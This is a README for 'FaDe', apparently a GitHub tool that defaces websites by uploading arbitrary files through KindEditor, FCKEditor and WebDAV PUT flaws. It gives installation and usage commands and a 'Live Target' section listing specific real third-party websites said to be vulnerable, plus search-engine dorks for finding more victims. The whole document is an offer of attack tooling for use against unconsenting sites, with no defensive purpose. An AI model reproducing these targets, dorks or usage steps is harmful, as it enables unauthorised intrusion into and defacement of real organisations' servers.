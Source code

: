 # FaDe
Fake deface with kindeditor, fckeditor and webdav is only add new files to the server, without touching anything on the server.

## Method
~ KindEditor - upload files on the server with remote file upload exploit<br>
~ FCKEditor - fckeditor all version arbitary vulnerability<br>
~ WebDAV - webdav file upload exploiter uses the PUT method that allows clients to upload and replace files on the server

## Screenshot
<img src=".images/screenshot.png">

## Installation and Using FaDe
```
apt-get install git python python-requests
```
```
git clone https://github.com/Gameye98/FaDe
```
```
python fade.py --method=method_name --file=<html|img>
```

## Example
```
fade --method=kindeditor --file=/path/example.png
```
```
fade --method=fckeditor --file=/path/example.html
```
```
fade --method=webdav --file=/path/example.html
```

## Live Target
```
KindEditor: http://www.nb-medicalsystem.com/kindeditor/examples/uploadbutton.html
Dork: inurl:/uploadbutton.html
```
```
FCKEditor: http://amarantenet.com.br/portal/editor/editor/filemanager/upload/test.html
Dork: inurl:/editor/editor/filemanager
```
```
WebDAV: http://ladesignstudio.co.za
Dork: intext:"(IIS)" ext:asp site:co.za
```

## Contact Me
Line     : dtl.lily<br>
Telegram : @dtlily<br>
Facebook : cgi.izo